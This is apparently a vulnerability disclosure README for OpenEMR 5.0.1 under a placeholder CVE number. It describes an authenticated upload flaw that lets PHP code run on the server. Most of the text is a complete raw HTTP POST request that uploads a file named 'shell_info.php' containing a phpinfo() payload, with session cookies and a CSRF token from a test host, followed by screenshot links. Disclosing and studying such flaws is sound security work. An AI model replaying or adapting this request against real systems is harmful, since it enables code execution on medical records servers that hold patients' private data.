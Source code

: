 # OpenEMR_Vulnerabilities
[OpenEMR 5.0.1](https://www.open-emr.org/) allows an authenticated attacker to upload and execute malicious php codes.


# CVE-2020-XXXXX
To exploit vulnerability, someone could use 'http://[HOST]/controller.php?document&upload&patient_id=00&parent_id=4&' post request to upload malicious php codes.

```
POST /openemr-5.0.1/controller.php?document&upload&patient_id=00&parent_id=4& HTTP/1.1
Host: 172.16.155.140
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:79.0) Gecko/20100101 Firefox/79.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://172.16.155.140/openemr-5.0.1/controller.php?document&upload&patient_id=00&parent_id=4&
Content-Type: multipart/form-data; boundary=---------------------------141194333536146869123947219434
Content-Length: 842
Origin: http://172.16.155.140
DNT: 1
Connection: close
Cookie: OpenEMR=t1lugo5qrbhv7mc2c3q9ricsnl; TreeMenuBranchStatus=objTreeMenu_1_node_1_9; PHPSESSID=dfhapc4v0bskt7pcpmc2j93agq; LS-VQGNEIWNPEBSNBWE=6rm848pgjj78hhecpb9roo8af1; YII_CSRF_TOKEN=OWYyM0lybGFtRF9wcHRkZ1lldF9WblhoVHlVNk5HRW3WMnZhghJHNtBjyIuALM94Ww3gltGLoeKETBSfevfbCw%3D%3D
Upgrade-Insecure-Requests: 1

-----------------------------141194333536146869123947219434
Content-Disposition: form-data; name="MAX_FILE_SIZE"

64000000
-----------------------------141194333536146869123947219434
Content-Disposition: form-data; name="file[]"; filename="shell_info.php"
Content-Type: text/php

<?php
phpinfo();
?>
-----------------------------141194333536146869123947219434
Content-Disposition: form-data; name="destination"


-----------------------------141194333536146869123947219434
Content-Disposition: form-data; name="patient_id"

00
-----------------------------141194333536146869123947219434
Content-Disposition: form-data; name="category_id"

4
-----------------------------141194333536146869123947219434
Content-Disposition: form-data; name="process"

true
-----------------------------141194333536146869123947219434--

```

![alt tag](https://emreovunc.com/blog/en/openemr_5_0_1_php_shell_upload_001.png)

![alt tag](https://emreovunc.com/blog/en/openemr_5_0_1_php_shell_upload_002.png)

![alt tag](https://emreovunc.com/blog/en/openemr_5_0_1_php_shell_upload_003.png)
